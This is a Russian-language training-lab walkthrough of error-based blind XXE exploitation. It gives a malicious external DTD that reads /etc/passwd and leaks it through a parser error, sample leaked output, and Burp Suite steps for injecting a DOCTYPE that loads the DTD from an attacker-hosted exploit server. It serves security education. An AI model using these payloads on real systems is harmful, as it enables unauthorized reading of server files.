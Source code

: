# Эксплуатация XXE для извлечения файлов, выполнения SSRF и работы со слепым XXE 🚨

XXE (XML External Entity) — это уязвимость, позволяющая злоумышленникам извлекать файлы с сервера, выполнять атаки SSRF и использовать "слепые" уязвимости XXE. Это руководство охватывает все эти сценарии с подробными примерами. 💡

---

## Использование слепого XXE для извлечения данных через сообщения об ошибках

Альтернативный подход к эксплуатации слепого XXE заключается в запуске ошибки анализа XML, где сообщение об ошибке содержит конфиденциальные данные, которые вы хотите получить. Это эффективно, если приложение возвращает результирующее сообщение об ошибке в своем ответе.

### Пример вредоносного DTD

Вы можете вызвать сообщение об ошибке анализа XML, содержащее содержимое файла `/etc/passwd`, используя следующий вредоносный внешний DTD:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Этот DTD выполняет следующие шаги:

1. Определяет параметрическую сущность `file`, содержащую содержимое файла `/etc/passwd`.
2. Определяет сущность `eval`, которая объявляет другую динамическую параметрическую сущность `error`. Сущность `error` пытается загрузить несуществующий файл, имя которого включает значение сущности `file`.
3. Использует сущность `eval`, чтобы объявить сущность `error`.
4. Вызывает сущность `error`, что приводит к попытке загрузить несуществующий файл, что вызывает сообщение об ошибке, содержащее имя файла — фактически раскрывая содержимое `/etc/passwd`.

Запуск этого вредоносного внешнего DTD приведет к сообщению об ошибке, подобному следующему:
```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

---

## Пример лабораторной работы

В этой лабораторной работе функция «Проверка запасов» анализирует входные данные XML, но не отображает результат.

Для решения лабораторной работы используйте внешний DTD, чтобы вызвать сообщение об ошибке, отображающее содержимое файла `/etc/passwd`.

Лаборатория предоставляет ссылку на сервер эксплойтов на другом домене, где вы можете разместить свой вредоносный DTD.

### Шаги выполнения

### 1. Выбор продукта
Откройте список продуктов и выберите любой из них:

![Список продуктов](https://github.com/user-attachments/assets/420f18e2-6900-4413-81f2-7cc5c6103444)

---

### 2. Нажатие кнопки
На странице продукта нажмите кнопку **"Проверить наличие на складе"**, предварительно включив прокси (например, Burp Suite):

![Кнопка проверки наличия](https://github.com/user-attachments/assets/c12710e3-0520-47a9-b507-1bb41849a7df)

---

### 3. Подготовка вредоносного DTD
Загрузите следующий файл на сервер эксплойтов:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

![Подготовка вредоносного DTD](https://github.com/user-attachments/assets/11ff29f8-5837-4372-900b-a9d5bbddcdd9)

---

### 4. Перехват запроса
Перейдите в **Proxy → HTTP History**, выберите POST-запрос к `/product/stock` и отправьте его в **Repeater**:

![POST-запрос](https://github.com/user-attachments/assets/1a3d72b0-4f86-4a0f-8a3f-d488517695b2)

---

### 5. Вставка полезной нагрузки
Добавьте следующее определение внешней сущности между декларацией XML и элементом `stockCheck`:
```xml
<!DOCTYPE foo [<!ENTITY % eyes SYSTEM "YOUR-DTD-URL"> %eyes;]>
```

![Вставка полезной нагрузки](https://github.com/user-attachments/assets/0e7f5ee1-ca87-4bf9-ac69-5d11b894fba8)

---

### 6. Получение результата
Содержимое `/etc/passwd` должно появиться в сообщении об ошибке приложения:

![Результат /etc/passwd](https://github.com/user-attachments/assets/70fb7b7c-fa39-4c23-be4d-b5d2e10d6c9f)
